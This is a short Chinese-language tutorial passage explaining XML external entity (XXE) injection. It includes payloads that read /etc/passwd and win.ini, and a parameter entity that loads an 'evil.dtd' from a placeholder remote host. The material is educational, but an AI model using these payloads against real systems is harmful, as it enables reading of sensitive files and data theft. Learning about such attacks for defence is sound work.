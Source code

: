 ![xieyi](/images/xieyi.png)

~~~
     外部实体的默认协议
~~~

示例：

~~~
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
<!ELEMENT methodname ANY >
<!ENTITY xxe(实体引用名) SYSTEM "file:///etc/passwd"(实体内容) >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
~~~

这种写法则调用了本地计算机的文件/etc/passwd，XML内容被解析后，文件内容便通过&xxe被存放在了methodname元素中，造成了敏感信息的泄露。

**3. 参数实体声明**

~~~
<!ENTITY % 实体名称 “实体的值”>
or
<!ENTITY % 实体名称 SYSTEM “URI”>
~~~

示例：

~~~
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>
~~~

外部evil.dtd中的内容。

```
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini” >
```
